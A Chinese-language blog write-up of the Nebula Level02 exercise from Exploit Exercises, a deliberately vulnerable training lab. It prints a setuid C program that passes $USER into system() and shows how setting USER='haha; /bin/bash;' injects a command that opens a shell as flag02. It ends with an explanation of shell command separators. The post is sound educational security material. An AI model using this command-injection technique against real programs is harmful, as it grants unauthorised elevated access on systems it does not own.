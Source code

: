 ```yaml
---
title: "Exploit Exercises - Nebula Level02"
date: 2014-01-09 15:13:38+08:00
categories: 
- Security
- Exercises
- Nebula
---
```


基本过程与level01一样，先看/home/flag02/flag02的源代码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

<!-- more -->

先通过$USER构建了一个字符串，然后执行该字符串。比如正常情况下

	buffer="/bin/echo level02 is cool"

在这里echo程序用了绝对路径，不过那个$USER明显是让我们加以利用的……在本例中echo程序是动不了的了，那怎么能执行其他的命令呢？也很简单，Linux本来就可以在一行中执行多条语句，这里选择用“;”来分割。如下修改$USER

	USER="haha; /bin/bash"

其实这里完全可以使用/bin/getflag的，就直接过掉了，不过每次都这么玩儿没意思，试试开个console吧。修改之后执行：

``` bash
~ $ /home/flag02/flag02
about to call system("/bin/echo haha; /bin/bash is cool")
haha
/bin/bash: is: No such file or directory
```

擦，bash执行的时候把后边的is cool当成参数了，这也简单，再次祭出“;”把bash跟他们分开

``` bash
USER="haha; /bin/bash;"
level02@nebula:~$ /home/flag02/flag02
about to call system("/bin/echo haha; /bin/bash; is cool")
haha
flag02@nebula:~$
```

这样就开了个用户为flag02的bash出来。

### 补充

其实Linux中分隔命令不止“;”这一种方法，总结下这些分隔符的不同如下：

- “;”：顺序执行所有命令，后一个在前一个之行结束之后才会执行
- “&&”：顺序执行，前一个命令成功执行之后才会执行下一个
- “||”：顺序执行，知道成功执行了一个命令为止（如果第一个成功了，后边的就不会执行）

还有种方法也可以起到在一行中分隔多个命令的方法，是使用“&”符号，“&”的本意是在一个新的进程中执行命令，对于分割命令这个目的而言算是一种曲线救国的方法了吧……注意因为“&”本身并不是为分隔命令而用的，所以跟其他的有些许不一样，比如以下两条命令

``` bash
$ la & ll
$ la & ll &
```

第一条会在新的进程中执行la，而在本进程中执行ll，第二条则会新起两个进程分别执行la和ll。